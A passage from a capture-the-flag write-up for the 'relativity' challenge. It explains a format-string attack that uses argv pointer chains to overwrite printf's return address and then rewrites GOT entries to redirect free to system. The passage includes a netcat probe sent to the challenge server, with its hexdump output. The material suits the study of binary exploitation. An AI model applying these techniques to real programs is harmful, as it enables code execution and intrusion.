 The technique is to use "seek" the format index to `argv` and change the lower
16 bits of `argv[0]` so that it points to the return address of `printf`. Then a
second write can be issued to change the actual return address of `printf`.

```
char** argv -> char *argv[0] -> void* __builtin_return_address(0)
```

The second pointer chain can be used to write anything on the stack, and can
thus be transformed in an arbitrary write primitive.

There are rare cases where the previous assertion does not hold: a program may
have no arguments or no environment variable. (See [pwnkit].)

[pwnkit]: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt

```
char** argv -> char* argv[0] -> char argv[0][0]
char** envp -> NULL
```


This can be checked by "reading" the `argv` and `envp` pointers and checking the
value is not empty.

```
% echo 'argc = %27$u, argv = %28$p (%28$s), envp = %29$p (%29$s)' \
	| nc -v relativity.chal.idek.team 1337 \
	| xxd

Connection to relativity.chal.idek.team (34.85.228.88) 1337 port [tcp/menandmice-dns] succeeded!
00000000: 3d 3d 20 70 72 6f 6f 66 2d 6f 66 2d 77 6f 72 6b  == proof-of-work
00000010: 3a 20 64 69 73 61 62 6c 65 64 20 3d 3d 0a 57 6f  : disabled ==.Wo
00000020: 75 6c 64 20 79 6f 75 20 6c 69 6b 65 20 74 6f 20  uld you like to
00000030: 73 61 79 20 61 6e 79 74 68 69 6e 67 20 62 65 66  say anything bef
00000040: 6f 72 65 20 49 20 73 63 72 65 61 6d 20 69 6e 74  ore I scream int
00000050: 6f 20 74 68 65 20 76 6f 69 64 3f 20 0a 61 72 67  o the void? .arg
00000060: 63 20 3d 20 31 2c 20 61 72 67 76 20 3d 20 30 78  c = 1, argv = 0x
00000070: 37 66 66 65 37 61 64 64 66 38 64 38 20 28 d8 0f  7ffe7addf8d8 (..
00000080: de 7a fe 7f 29 2c 20 65 6e 76 70 20 3d 20 30 78  .z..), envp = 0x
00000090: 37 66 66 65 37 61 64 64 66 38 65 38 20 28 29 0a  7ffe7addf8e8 ().
```

There are no environment variables ! That is a bummer because nothing hinted
toward this unusual configuration. An indication (such as the task's
`Containerfile`) would have turned this specificity from a frustrating gimmick
to a clever twist.

This changes the attack plan because it is not possible to craft arbitrary
values on the stack. The new attack plan is to leverage the fact that the GOT is
writable to change `free`'s address.

1. change `argv[0]`'s pointer to `printf`'s return address,
   change `printf`'s return address to `vuln`;
2. change `printf`'s return address to `vuln`,
   change `argv[0]`'s pointer to `__libc_start_main`'s return address;
3. change `__libc_start_main`'s return address to `free@got.plt`,
   change `free@got.plt` to `vuln`;
4. change `__libc_start_main`'s return address to `_Exit@got.plt + 2*i`,
   change `_Exit@got.plt + 2*i` to craft a pointer to `system`;
5. repeat previous step 4 times;
6. change `__libc_start_main`'s return address to `free@got.plt`,
   change `free@got.plt` to `_Exit` to replace `free` with `system`.
